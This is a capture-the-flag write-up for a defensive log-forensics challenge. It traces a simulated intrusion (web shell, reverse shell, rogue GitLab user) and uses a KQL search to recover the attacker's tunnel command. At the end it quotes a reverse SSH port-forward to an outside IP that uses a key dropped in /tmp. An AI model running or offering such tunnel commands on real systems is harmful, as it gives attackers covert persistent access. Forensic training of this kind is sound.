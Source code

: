 # Blue's Clues 7/8: Tunnel
> Okay. Let's recap. The web server somehow got exploited, and a webshell was uploaded. The webshell allowed for commands to be executed. A reverse-shell was launched. A gitlab user was created. The gitlab user created a malicious pipeline.

> Using this search in analytics>discover: host.hostname :"Rezifp-GitLab-Server" and gitlab.meta.remote_ip:10.0.0.5 and gitlab.ua:* And going into the "field statistics" tab, we can see that there are two user agents: curl and firefox, that made queries to our gitlab from the web server. However, firefox is not installed on the web server. There must be a tunnel/socks proxy that was created. Find the command line that created that tunnel.

> Flag format: <commandline>

> Example: ./tunnelcreator create tunnel --awesome

## About the Challenge
We need to find the command that created the tunnel/socks proxy

## How to Solve?
Im using this KQL syntax because I want to find the command that related to SSH and the `-R` option is used to set up a reverse port forwarding, also known as remote port forwarding. It allows connections from the remote SSH server to be forwarded to a local machine or a different machine on the client's network.

```
"ssh" and "-R"
```

And then find `proccess.command_line` in the `Search Field` form


[Image extracted text: Discover
logs--
'ssh"
"-R"
command_line
53,402 hits
Available fields
60,000
50,000
process command_line
process command_line
process entry_leader command_line
process group_leader command_line
Top values
process parent command_line
ssh
userknownhostsfile= _
52.6%
process session_leader command_line
ssh
Itmplkey
8080 rezifp-
Target process command_line
admin@158.69.62.65
Target process parent command_line
ssh
Itmpikey
8080 rezif__.
10.5%
Empty fields
Calculated from 10,568 sample records
Multi fields
There are no empty fields.
process command_line caseless
Meta fields
process command_line.text
Visualize
and]


```
ssh -i /tmp/key -r 8080 rezifp-admin@158.69.62.65
```